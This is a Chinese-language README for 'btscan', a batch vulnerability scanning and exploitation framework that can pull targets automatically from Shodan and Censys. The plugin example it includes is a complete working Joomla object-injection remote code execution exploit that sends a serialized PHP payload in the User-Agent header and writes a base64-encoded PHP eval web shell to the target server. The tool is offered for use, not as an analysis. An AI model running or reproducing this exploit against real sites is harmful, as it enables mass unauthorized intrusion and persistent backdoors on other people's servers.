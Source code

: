 #批量漏洞扫描和批量漏洞利用框架btscan

##目录结构

    --lib 核心文件库

    --report 报告生成的文件夹

    --node 里面每一个py文件是一个攻击向量，添加扫描节点也是向里面添加文件

    --crawl 通过空间搜索引擎抓取url或者ip的脚本

##使用方法
    python btScan.py
    usage: btScan.py [options]
    
    * batch vulnerability verification and exploition framework. *
    By he1m4n6a
    
    optional arguments:
      -h, --help   show this help message and exit
      -t THREADS   Num of scan threads for each scan process, 20 by default
      -m MODE      select mode [config|script]
                   e.g. -m script
      -n NAME      from node floder choose a script
      -c COMMAND   give an instruction when use script mode [verify|exploit]
                   e.g. -c verify
      -u URL_FILE  input url file
      -i IP_FILE   input ip file
      -autoIP      get ip from space search engine and auto attack
      -autoURL     get url from space search engine and auto attack
      -v           show program's version number and exit
脚本存在两种验证模式，一种是通过加载模块，另一种是通过配置文件。复杂的可以通过加载脚本，简单的通过加载配置文件即可。然后攻击也有两种模式，验证verify模式和攻击exploit模式。 你也可以指定ip或者url作为输入格式，也可以自动获取ip或者url，那就是配合crawl文件下的网络空间抓取模块。

**示例**
```
    python btscan.py -n joomla -m script -c verify -u url.txt
-n 指定node文件夹下的joomla.py，-m指定为script模式，即指定加载模块的模式。-c指定模式为验证，仅为验证就好了，-u指定输入为url的模式。
```
```
python btscan.py -n joomla -m script -c exploit -u url.txt
同上，只是指定为攻击模式。
```
```
python btscan.py  -m config -c verify -i ip.txts
-m指定为config模式，-c指定为验证模式，-i指定输入的为ip模式，仅需通过conf目录下的scan_rule.ini的配置就够了。
```

##插件编写规则

仅需要在node文件夹下新增一个py文件

py文件中重要的有两个函数verify和exploit函数，没有exploit攻击模式，仅需要verify函数，返回值有三个值，第一个值是返回是否存在漏洞，返回True或者False；第二个值是返回url，第三个值返回需要打印的信息。

***示例(joomla.py为例)***

```
#!/usr/bin/env python
#coding=utf8

import urllib2
import urllib
import re
import cookielib, sys
import requests

def checkJoomlaRCE(url):
    poc = generate_payload("phpinfo();")
    try:
        result = get_url(url, poc)
        if 'phpinfo()' in result:
            system = getInfoByJoomlaRCE(result, 'System')
            document_root = getInfoByJoomlaRCE(result, 'DOCUMENT_ROOT')
            if document_root == 'no info!':
                msg = 'vul, but get shell failed!'
                return False, url,  msg
            script_filename = getInfoByJoomlaRCE(result, 'SCRIPT_FILENAME')
            if script_filename == 'no info!':
                msg = 'vul, but get shell failed!'
                return False, url, msg
            shell_file = getShellByJoomlaRCE(url, system, script_filename)
            if shell_file == 'no info!':
                msg = 'vul, but get shell failed!'
                return False, url, msg
            msg = 'get shell succsss, shell:  %s' %shell_file
            return True, url, msg
        else:
            msg = 'safe'
            return False, url, msg
            # print '[!] no vuls! url: '+url
    except Exception,e:
        msg = str(e)
        return False, url, msg

def getShellByJoomlaRCE(url, system, script_filename):
    if 'no info' not in script_filename and 'no info' not in system:
        if 'Windows' in system:
            shell = script_filename.split('index.php')[0].replace('/','//').strip()+"nwes.php"
        else:
            shell = script_filename.split('index.php')[0]+"nwes.php"
        cmd ="file_put_contents('"+shell+"',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7ID8+'));"
        pl = generate_payload(cmd)
        try:
            get_url(url, pl)
            return url+"nwes.php"
        except Exception, e:
            return "no info!"
    else:
        return "no info!"
  
def getInfoByJoomlaRCE(result, param):
    if "System" in param:
        reg = '.*<tr><td class="e">System </td><td class="v">([^<>]*?)</td></tr>.*'
    elif "DOCUMENT_ROOT" in param:
        reg = '.*<tr><td class="e">DOCUMENT_ROOT </td><td class="v">([^<>]*?)</td></tr>.*'
    elif "SCRIPT_FILENAME" in param:
        reg = '.*<tr><td class="e">SCRIPT_FILENAME </td><td class="v">([^<>]*?)</td></tr>.*'
    match_url = re.search(reg,result)
    if match_url:
       info = match_url.group(1)
    else:
        info = 'no info!'
    return info

def get_url(url, user_agent): 
    headers = {
    'User-Agent': user_agent
    }
    cookies = requests.get(url,headers=headers).cookies
    for _ in range(2):
        response = requests.get(url, headers=headers, cookies=cookies)
    return response.content
    
def php_str_noquotes(data):
    "Convert string to chr(xx).chr(xx) for use in php"
    encoded = ""
    for char in data:
        encoded += "chr({0}).".format(ord(char))
    return encoded[:-1]
  
def generate_payload(php_payload): 
    php_payload = "eval({0})".format(php_str_noquotes(php_payload))
    terminate = '\xf0\xfd\xfd\xfd';
    exploit_template = r'''}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\0\0\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";'''
    injected_payload = "{};JFactory::getConfig();exit".format(php_payload)    
    exploit_template += r'''s:{0}:"{1}"'''.format(str(len(injected_payload)), injected_payload)
    exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}''' + terminate
  
    return exploit_template
  

#verify vulnerable 
def verify(url):
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    urllib2.install_opener(opener)
    urllib2.socket.setdefaulttimeout(10)

    ua = '}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\x5C0\x5C0\x5C0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\x5C0\x5C0\x5C0connection";b:1;}\xF0\x9D\x8C\x86'
    req = urllib2.Request(url=url, headers={'User-Agent': ua})
    opener.open(req)
    req = urllib2.Request(url=url)
    res = opener.open(req).read()
    if '_SERVER["DOCUMENT_ROOT"]' in res:
        msg = 'vul'
        return True, url, msg
    else:
        msg = 'safe'
        return False, url, msg

#exploit vulnerable
def exploit(url):
    res = checkJoomlaRCE(url)
    return res
```
上面函数都可以自己定义，主要是verfiy和exploit函数，如果exploit函数和verify函数一样，exploit函数里面只要简单的self.verify(url)即可。

##其他

crwal文件夹的NetSearch.py里面的shadon和censys模块的密钥要自己填上。

有任何交流和问题可以联系我he1m4n6a@163.com
